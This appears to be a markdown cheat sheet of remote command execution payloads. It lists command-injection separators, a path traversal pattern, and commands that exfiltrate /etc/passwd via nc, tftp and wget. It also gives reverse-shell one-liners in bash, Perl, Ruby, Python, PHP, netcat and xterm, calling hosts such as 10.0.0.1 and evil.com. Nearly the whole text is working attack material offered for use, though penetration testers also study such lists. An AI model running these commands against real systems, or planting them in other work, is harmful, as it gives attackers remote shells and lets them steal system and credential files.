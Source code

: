 Remote Command Exec Cheatsheet

File notes

**source-disc-cmd-exec-traversal.fuzz.txt**

usage
```GET /path/*payload*relative/path/to/target/file/```

**Executing Commands**

Seperating Commands 
```blah;blah2```

PIPES
``` blah ^ blah 2```

AND 
```blah && blah2```

OR
```FAIL || X```

OR 
``` blah%0Dblah2%0Dblah3 ```

Backtick
``` `blah` ```

Background 
``` `blah & blah2` ```

**Exfiltrating Files / Data**

FTP 
Make a new text file, and echo and then redirect to FTP

NC 
``` 'nc -e /bin/sh' ```

NC 
``` 'echo /etc/passwd  | nc host port' ```

TFTP 
``` 'echo put /etc/passwd | tftp host' ```

WGET: 
``` 'wget --post-file /etc/passwd' ```

**One-Liner Reverse Shells**

On the listener 
``` $ nc -l -p 8080 -vvv' ```

On the remote host...
Bash:
``` $ bash -i >& /dev/tcp/10.0.0.1/8080 0>&1 ```

``` $ exec 5<>/dev/tcp/evil.com/8080 ```
'$ cat <&5 | while read line; do $line 2>&5 >&5; done'

Perl
```$ perl -e 'use Socket;$i="10.0.0.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};' ```

Ruby
``` $ ruby -rsocket -e'f=TCPSocket.open("10.0.0.1",1234).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)' ```

Python
``` $ python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);' ```

PHP
``` $ php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");' ```
(Assumes TCP uses file descriptor 3. It it doesn't work, try 4,5, or 6)

Netcat
``` $ nc -e /bin/sh 10.0.0.1 1234 ```

``` $ rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f ```

```
XTERM:
Server: 
$ xterm -display 10.0.0.1:1
Listener:
$ Xnest :1
$ xhost +targetip
```



More docs: /docs/attack-docs/remote-cmd-exfiltration/
